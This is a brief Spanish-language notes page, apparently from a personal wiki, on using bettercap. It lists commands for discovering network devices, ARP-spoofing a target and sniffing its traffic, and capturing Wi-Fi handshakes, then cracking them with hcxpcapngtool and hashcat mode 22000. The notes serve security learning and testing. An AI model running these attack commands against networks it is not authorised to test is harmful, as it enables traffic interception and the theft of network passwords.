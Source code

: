 Herramienta para monitorear y capturar trafico de red

# Ejemplos de uso
## Encontrar dispositivos dentro de una red
bettercap permite encontrar los dispositivos conectados a una red, dando información sobre su [[IP|IPv4]], [[MAC]] y modelo del dispositivo
`net.probe on`
`net.show`
En este punto, es visible una tabla que muestra de forma ordenada toda la información capturada por el primer comando

## [[ARP spoofing]]
`set.arp.spoof.targets <ip>`
`arp.spoof on`
`net.sniff on`
## Captura handshakes + hashcat
Para este ejemplo, la tarjeta de red debe estar previamente configurada en modo monitor
`sudo bettercap`
`set wifi.interface (nombre interfaz)`
`set wifi.handshakes.file (archivo .pcap de output)`
`wifi.recon on`
`wifi.show`
`events.stream off`
`wifi.assoc ([[BSSID]] de la red objetivo)`
`events.stream on`
`exit`
`[[hcxpcapngtool]] -o (archivo para output) (archivo .pcap anterior)` 
`hashcat -m 22000 (output del comando aterior) (diccionario)`
En este caso, el 22000 esta estableciendo el tipo de [[hash]], el usado es el correspondiente a protocolos de red